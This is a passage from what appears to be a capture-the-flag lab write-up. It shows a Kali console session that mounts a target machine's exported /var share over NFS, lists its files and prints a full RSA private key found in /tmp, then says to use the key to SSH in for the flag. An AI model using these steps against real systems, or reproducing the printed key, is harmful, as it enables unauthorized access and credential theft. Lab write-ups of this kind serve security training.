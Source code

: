 now we mount the /var directory and read the private key

```console
kali@kali:~$ sudo mkdir /mnt/kenobi
kali@kali:~$ sudo mount 10.10.7.34:/var /mnt/kenobi
kali@kali:/home$ cd /
kali@kali:/$ cd mnt
kali@kali:/mnt$ ls
kenobi
kali@kali:/mnt$ cd kenobi/
kali@kali:/mnt/kenobi$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
kali@kali:/mnt/kenobi$ cd tmp
kali@kali:/mnt/kenobi/tmp$ ls
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-86e476a201de44cdb8e114dd0c97815c-systemd-timesyncd.service-M5qylz
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
kali@kali:/mnt/kenobi/tmp$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----

```

make a copy of the privatey key to our Downloads directory, then ssh onto the machine to get the flag
